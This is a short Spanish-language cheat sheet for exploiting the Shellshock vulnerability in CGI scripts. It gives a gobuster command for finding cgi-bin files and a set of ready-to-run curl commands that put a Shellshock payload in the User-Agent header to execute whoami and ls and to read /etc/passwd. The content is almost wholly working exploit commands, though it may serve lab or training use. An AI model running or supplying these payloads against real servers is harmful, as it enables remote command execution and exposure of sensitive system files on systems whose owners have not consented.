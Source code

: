 ```yaml
---

### 💣 **Shellshock Attack Cheat Sheet** 💣

---
```

---
## **Exploración Inicial: Detectando el directorio cgi-bin**

Antes de explotar la vulnerabilidad, es fundamental detectar el directorio **cgi-bin** y los archivos que contiene:  
```bash
gobuster dir -u http://localhost/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi -v
```
- **Extensiones comunes:** `.pl`, `.sh`, `.cgi`  
- **Objetivo:** Encontrar archivos que se puedan explotar.  

---

## **Payloads para Explotación usando curl**

Una vez identificado un archivo dentro de **cgi-bin**, intenta ejecutar comandos mediante el encabezado **User-Agent**:  

### **Ejecutando Comandos en el Servidor**
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /usr/bin/whoami"
```
- 💡 **Explicación:** El encabezado **User-Agent** contiene el payload que ejecuta el comando `whoami`.

---

### **Payload Alternativo con Echo**
Si el payload anterior no muestra nada, intenta agregar un **echo** antes:  
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```
- **Explicación:** El uso de `echo` puede forzar una respuesta más clara si el servidor no muestra la salida directamente.  

---

### **Otros Comandos para Verificar la Vulnerabilidad**
```bash
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; /bin/ls"
curl -s http://localhost/cgi-bin/status -H "User-Agent: () { :; }; echo; /bin/cat /etc/passwd"
```
- **Objetivo:** Verificar la ejecución de comandos arbitrarios y la posibilidad de leer archivos sensibles.  

---

